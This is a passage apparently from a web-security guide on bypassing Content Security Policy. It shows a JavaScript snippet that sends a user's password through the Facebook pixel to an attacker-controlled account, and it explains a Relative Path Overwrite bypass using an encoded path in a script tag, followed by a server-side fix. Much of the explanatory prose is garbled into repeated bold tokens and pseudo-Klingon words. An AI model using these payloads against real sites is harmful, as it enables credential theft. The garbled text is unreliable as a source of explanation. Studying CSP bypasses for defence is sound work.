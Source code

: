 **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **
```JavaScript
fbq('init', '1279785999289471');​ // this number should be the App ID of the attacker's Meta/Facebook account
fbq('trackCustom', 'My-Custom-Event',{​
data: "Leaked user password: '"+document.getElementById('user-password').innerText+"'"​
});
```
### Bypass via RPO (Relative Path Overwrite) <a href="#bypass-via-rpo-relative-path-overwrite" id="bypass-via-rpo-relative-path-overwrite"></a>

**QaStaHvIS RPO (Relative Path Overwrite) vItlhutlh** 

**RPO (Relative Path Overwrite)** vItlhutlh **bypass** vItlhutlh **bom** **bypass** **path restrictions** **bom** **technique** **'ej** **bom** **servers** **bom** **vaj** **bom** **'ej** **CSP** **bom** **path** `https://example.com/scripts/react/` **bom** **allow** **bom** **jatlh** **bom** **bypass** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **bom** **
```html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```
The browser will ultimately load `https://example.com/scripts/angular/angular.js`.

This works because for the browser, you are loading a file named `..%2fangular%2fangular.js` located under `https://example.com/scripts/react/`, which is compliant with CSP.

∑, they will decode it, effectively requesting `https://example.com/scripts/react/../angular/angular.js`, which is equivalent to `https://example.com/scripts/angular/angular.js`.

By **exploiting this inconsistency in URL interpretation between the browser and the server, the path rules can be bypassed**.

The solution is to not treat `%2f` as `/` on the server-side, ensuring consistent interpretation between the browser and the server to avoid this issue.

